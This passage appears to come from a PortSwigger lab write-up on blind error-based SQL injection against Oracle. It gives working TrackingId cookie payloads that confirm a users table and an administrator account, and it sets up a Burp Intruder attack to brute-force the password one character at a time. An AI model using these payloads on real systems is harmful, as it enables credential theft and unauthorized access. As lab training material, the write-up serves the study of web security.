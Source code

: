 1. `TrackingId=xyz' OR (SELECT 1)=1 --` which still returns an error, although the second OR statement should succed. Oracle DB however needs FROM or it will return an error.
2. `TrackingId=xyz' OR (SELECT 1 from DUAL)=1 --` works:
![picture 38](/assets/images/561035f5725e23a93e71b239deb3bf1a389a4dc0c22c5034fcf3d20d0d9559d0.png)  
3. `TrackingId=xyz' OR (SELECT 2 FROM dual)=1 --` is still working.
4. `TrackingId=xyz' OR (SELECT 2 FROM dual123)=1 --` doesn't work anymore
5. Check if Table `users` exist: `TrackingId=xyz' OR (SELECT 1 FROM users WHERE ROWNUM = 1)=1 --'` - yes it does! We need `WHERE ROWNUM = 1` otherwise we get an error instead, becase more then 1 row will be returned.

## Problems arise - missing concatenation

Now again, we need to somehow to evaluate the database but here is where i've noticed the problem. It was hard to make CASE work because query as i've seen above it's breaking the WebApplication so i had to resort to concatenation using `||` which is also the way Portswigger suggest solving the lab.
- This gives us an `200 OK`:
`xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
- This returns an error `xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'` 

6. Checking if `administrator` exist
```sql
xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' 
```
Result: Yes it does as it returns an error

## Finding password with Burp Intruder - first character

Let's throw our query into intruder now.
```sql
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§e§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
Let's go with Sniper first to get only first character. Use `Brute forcer` with default settings and setting Min and Max length to 1:
